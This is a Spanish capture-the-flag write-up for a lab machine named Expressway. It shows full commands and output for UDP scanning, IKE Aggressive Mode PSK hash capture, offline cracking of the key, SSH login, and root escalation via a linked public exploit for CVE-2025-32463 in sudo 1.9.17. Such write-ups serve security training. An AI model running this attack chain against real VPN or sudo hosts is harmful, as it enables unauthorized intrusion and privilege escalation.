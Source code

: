 # Expressway
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      <img src="portadas/Expressway.png" alt="Expressway" style="max-width:320px; width:100%; height:auto;"/>
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>IKE (Aggressive Mode) — PSK hash disclosure</li>
        <li>Weak/guessable PSK — PSK cracked via wordlist → Credential compromise</li>
        <li>SSH access obtained (usuario <code>ike</code>)</li>
        <li>Lista de servicios UDP relevantes (ISAKMP / IKE)</li>
        <li>Non-standard SUID binary: <code>/usr/local/bin/sudo</code> (version 1.9.17)</li>
        <li>Privilege Escalation vía CVE-2025-32463 (exploit publicado)</li>
      </ul>
    </td>
  </tr>
</table>
## Reconocimiento inicial
Primero lanzamos un escaneo básico de recnocimiento sobre el objetivo:


```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.245 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```

Solo encontramos un puerto abierto por lo tanot vamos a comprobar si es vulnerable por la versión

```shell
nmap -sCV -p22 10.10.11.87 -oN targeted
```

Obtenemos que la versión es actual y no es vulnerable por lo tanto vamos a tener que hacer otro tipo de escaneo 
por UDP

```shell 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)

```

### Enumeración de los puertos UDP

De la misma manera hacemos un escaneo de los puertos más representativos de UDP para ello utilizamos el siguiente comando.

```shell
nmap -sU --top-ports 100 10.10.11.87 -oN udp_top100
```

Estos son los puertos interesante que nos encontramos que estan abierto o filtrados.

```shell
68/udp   open|filtered dhcpc
69/udp   open|filtered tftp
500/udp  open          isakmp
4500/udp open|filtered nat-t-ike
```

Aquí lo importante es el puerto 500/udp (ISAKMP), que corresponde a IKE (Internet Key Exchange).

## IKE

IKE (Internet Key Exchange) es un protocolo usado en IPsec VPNs.
Funciona en el puerto 500/UDP y se encarga de negociar claves y parámetros de seguridad entre dos dispositivos que quieren montar un túnel VPN.

Existen dos modos principales:

- Main Mode

- Aggressive Mode (más rápido, pero menos seguro porque puede filtrar información como el identificador de usuario y hashes de PSK).

En esta máquina, el servicio estaba configurado en Aggressive Mode con autenticación por PSK (Pre-Shared Key) → esto es vulnerable a ataques de diccionario.

### Enumeración de IKE con (ike-scan)

Vamos a comprobar le modo Main
```shell
ike-scan -M 10.10.11.87
```
Recibimos la siguiente respuesta:
```shell
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Main Mode Handshake returned
        HDR=(CKY-R=86b87084be5796a2)
        SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800)
        VID=09002689dfd6b712 (XAUTH)
        VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.068 seconds (14.71 hosts/sec).  1 returned handshake; 0 returned notify
```                                                                                             

Tambien vamos a probar la opción `-A` de Aggressive Mode

```shell
ike-scan -A 10.10.11.87
```
```shell
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87     Aggressive Mode Handshake returned HDR=(CKY-R=26cc3f02d2207e44) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_USER_FQDN, Value=ike@expressway.htb) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.065 seconds (15.28 hosts/sec).  1 returned handshake; 0 returned notify
```

Como se puede apreciar el servicio revela un ID de usuario(ike@expressway.htb) y un hash del PSK

### Crackeo del PSK
Generamos un hash con el siguiente comando para posteriormente intentar averiguar que contiene.
```shell
ike-scan -A 10.10.11.87 --id=ike@expressway.htb --pskcrack=hash.txt
```
Con el comando de `psk-crack` intentamos obtner el valor del hash
```shell
psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt
```

Vemos que el resultado es la contraseña siguiente.

```shell
key "freakingrockstarontheroad"
```

## Intrusión a la máquina por SSH

Con el ID que encontramos (ike) y la PSK crackeada, podemos probar acceso vía SSH:
```shell
ssh ike@10.10.11.87
Contraseña: freakingrockstarontheroad
```
✅ Conseguimos acceso a la máquina como el usuario ike.


## Enumeración interna

Comprobamos si el usuario `ike`puede usar sudo

```shell
sudo -l
```
Obtenemos de resultado lo siguiente:

```shell
Sorry, user ike may not run sudo on expressway.
```

👉 No tiene permisos sudo.

Así que pasamos a buscar binarios SUID (que pueden darnos escalada de privilegios):
```shell
find / -perm -4000 -type f 2>/dev/null
```
Resultado interesante:
```shell
/usr/local/bin/sudo
```


👉 Un binario de sudo instalado en /usr/local/bin/, distinto al estándar del sistema.
Además, comprobamos su versión:

```shell
/usr/local/bin/sudo -V
```

Resultado:

```shell
Sudo version 1.9.17
```

## 8. Escalada de privilegios (CVE-2025-32463)

La versión sudo 1.9.17 tiene una vulnerabilidad crítica que permite escalar a root sin conocer credenciales si el binario es SUID (como en este caso).

Para explotarla, subimos a la máquina el exploit público cve-2025-32463.sh.

El exploit que he utilizado es el siguiente:

```shell
https://github.com/KaiHT-Ladiant/CVE-2025-32463/blob/main/cve-2025-32463.sh/
```

Para subir el exploit a la maquina he utilizado el siguiente comando:
```shell
scp cve-2025-32463.sh ike@10.10.11.87:/tmp/
```

Por último comprobamos que realmente somos usuario root.